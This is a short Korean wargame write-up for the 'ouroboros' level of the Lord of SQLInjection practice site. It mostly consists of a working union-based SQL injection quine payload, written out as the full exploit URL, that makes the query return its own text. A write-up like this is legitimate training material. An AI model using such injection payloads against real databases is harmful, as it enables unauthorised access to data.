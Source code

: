 # LOS2 - ouroboros

Quine문제였다.

그렇다고 판단한 근거는 테이블에 아무것도 없었기 때문이다.

아래의 페이로드로 풀었다. 다신 하기싫다.

```
https://los.rubiya.kr/chall/ouroboros_e3f483f087c922c84373b49950c212a9.php?pw=%27union%20SELECT%20REPLACE(REPLACE(%27%22union%20SELECT%20REPLACE(REPLACE(%22$%22,CHAR(34),CHAR(39)),CHAR(36),%22$%22)%20AS%20Quine--%20-%27,CHAR(34),CHAR(39)),CHAR(36),%27%22union%20SELECT%20REPLACE(REPLACE(%22$%22,CHAR(34),CHAR(39)),CHAR(36),%22$%22)%20AS%20Quine--%20-%27)%20AS%20Quine--%20-
``